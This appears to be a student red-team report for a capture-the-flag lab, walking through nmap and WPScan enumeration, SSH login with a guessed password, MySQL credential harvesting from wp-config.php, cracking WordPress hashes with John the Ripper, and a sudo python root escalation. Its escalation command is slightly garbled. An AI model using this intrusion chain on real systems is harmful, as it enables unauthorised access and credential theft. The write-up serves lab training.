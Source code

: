 # Red Team: Summary of Operations

## Table of Contents

- Exposed Services
- Critical Vulnerabilities
- Exploitation

## Exposed Services

Nmap scan results for each machine reveal the below services and OS details:

- $ nmap -sV -A 192.168.1.100

![NMAP scan](https://user-images.githubusercontent.com/88005785/156202449-00d3d6a3-2b1a-4f3a-b20a-a435e417e40d.png)

This scan identifies the services below as potential points of entry for Target 1:

- Port 22/TCP Open SSH
- Port 80/TCP Open HTTP
- Port 111/TCP Open rpcbind
- Port 139/TCP Open netbios-ssn
- Port 445/TCP Open netbios-ssn

The following vulnerabilities were identified on the Target 1 VM:

- User enumeration 
- Weak user passwords
- No use of salt on hashed passwords
- Misconfigured user privileges

## Exploitation

The Red Team was able to penetrate Target 1 and retrieve the following confidential data:

- Flag1.txt: b9bbcb33e11b80be759c4e8448622482d

- Exploit Used
  - WPScan was used to enumerate users on the WordPress site
  - $ wpscan --url http://192.168.1.110/Wordpress --enumerate u

![Enumeration](https://user-images.githubusercontent.com/88005785/156202666-bda80739-4b50-4319-b4cf-50c57ec610d7.png)

  - After enumerating users, guessed user Michael’s password: michael
  - Connected via SSH using Michael’s credentials.
    - $ ssh michael@192.168.1.110 
  - Found first flag in /var/www/html/service.html directory and file by using following command:
    - $ grep -ir flag1 /var/www 

![Flag1](https://user-images.githubusercontent.com/88005785/156202721-05f782ae-8cb3-4adb-9fc1-d21f3123007e.png)

- Flag2.txt: fc3fd58dcdad9ab23faca6e9a36e581c

- Exploit Used
  - Used similar commands to search directories and files in Michael’s machine.
  - Search through Michael’s directories uncovered the second flag:

![Flag2](https://user-images.githubusercontent.com/88005785/156202771-4f845dc0-dd5e-4ef6-8801-d5748c00f1e3.png)

- Flag3.txt: afc01ab56b50591e7dccf93122770cd2

- Exploit Used
  - Searching for file name, located the wp-config.php containing Michael’s mysql login credentials, including password: R@v3nSecurity

![SQL creds](https://user-images.githubusercontent.com/88005785/156202822-3cd279e0-70bb-44e9-843a-3f4a550d4ae5.png)

  - Logged into mysql with following command
    - $ mysql -u root - p wordpress
  - Ran the following sql commands to enumerate the tables:
    - show databases;
    - use wordpress;
    - show tables;

![mysql table](https://user-images.githubusercontent.com/88005785/156202856-bb8acbbf-d34a-4243-97b7-cb9faf1643eb.png)

    - select * from wp_posts;

![Flag3](https://user-images.githubusercontent.com/88005785/156202875-8cdb60ff-32a1-4184-a169-831b859b311f.png)

    - select * from wp_users;

![Hashed passwords](https://user-images.githubusercontent.com/88005785/156202901-b6ed3cce-eb4c-4b72-83b5-1daec9a720f2.png)

  - On the Kali machine, the hashed passwords (displayed above) were cracked using John the Ripper:
    - $ john wp_hashes.txt

![Steve password](https://user-images.githubusercontent.com/88005785/156202935-5679ae4c-b1a8-44df-b7f3-466fecc21307.png)
 
 - Steven’s password was obtained: pink84

- Flag4.txt: 715dea6c055b9fe3337544932f2941ce

- Exploit Used
  - Connected via SSH using Steven’s credentials
    - $ ssh steven@192.168.1.110


![Steve account](https://user-images.githubusercontent.com/88005785/156202989-707e992c-a101-4e93-a0bf-027324c44e54.png)

  - Attempted to switch to root by enumerating sudo privileges:
    - $ sudo -l

![Steve sudo](https://user-images.githubusercontent.com/88005785/156203026-4eecaabe-b699-4925-a3bc-5c5c54f20439.png)

  - Escalated to root by using the following python command:
    - $ sudo python -c ‘import pty: pty.spawn(*/bin/sh”)’

![Python command](https://user-images.githubusercontent.com/88005785/156203052-3e079f95-1c0b-4419-9a0e-6c9b64108019.png)

  - With access to root, found the 4th flag:

![Flag4](https://user-images.githubusercontent.com/88005785/156203081-e157be54-19c5-4ac8-86ee-95bb08eb2d1d.png)
